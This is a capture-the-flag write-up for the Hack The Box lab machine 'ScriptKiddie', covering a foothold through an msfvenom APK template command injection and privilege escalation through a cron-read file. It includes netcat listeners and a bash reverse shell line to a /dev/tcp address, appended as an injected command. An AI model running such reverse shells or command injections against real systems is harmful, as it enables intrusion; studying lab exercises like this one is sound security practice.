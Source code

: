 # ScriptKiddie
### Machine Maker(s): [0xdf](https://www.hackthebox.eu/home/users/profile/4935)

#### Info :
``` 
OS          : Linux
Difficulty  : Easy
Points      : 20
Release     : 06 Feb 2021
IP          : 10.10.10.226
```
---
### Enumeration

Scanning the ip address we find an open **SSH** port and a web-page hosted on port 5000         
![](images/nmap.png)

I tried running dirbuster in hopes of finding a directory for uploads of the template file but it was in vain.       

I checked the sourcecode couldn't find much of anything there, checked for filters in the input, checked for js files but none of them were linked in the sourcecode. 

After lurking in the Official forum for sometime they were talking about metasploit a lot but I didn't understand why. Then I read the payloads section again, it must be something related to template file upload and msfvenom, so i started googling.

### Foothold

I found a **command injection vulnerability** in msfvenom payload generator when using a crafted APK file as a Android payload template.

After looking up in different sites I found how to reproduce it in the Official Metasploit [repo](https://github.com/rapid7/metasploit-framework/pull/14331)

Following the instructions there I was able to generate an apk file using msfconsole.

Fire up a netcat listener for the reverse shell      
```bash
$ nc -lvnp port
```
and enter your LHOST and upload your apk file onto the target site.

We got a reverse shell.         
Use this to get a python interactive shell
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Privilege Escalation

After lurking around we find another user **pwn** who has a cronjob running so we try to get a horizontal privilege escalation.

The scanloser.sh file doesn't have write permissions for user kid **kid**.      
Looks like hackers is being run everytime scanlosers.sh runs so we try to write into that, **kid** has permissions to write into it.        

So we try to write a bash reverse shell.        
use the following command to echo the bash shell into hackers
```bash
echo "         ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'  #" >> hackers
```
Don't forget to fire up another netcat listener for this as well.

We get the shell for the user pwn       
Let's check the user permissions for this user
```bash
$ sudo -l
```
We can run /opt/metasploit-framework-6.0.9/msfconsole without password as root

Lets fire up msfconsole and check the root.txt from there.
```bash
msf6 > cat /root/root.txt
```

Voila! We have the root flag.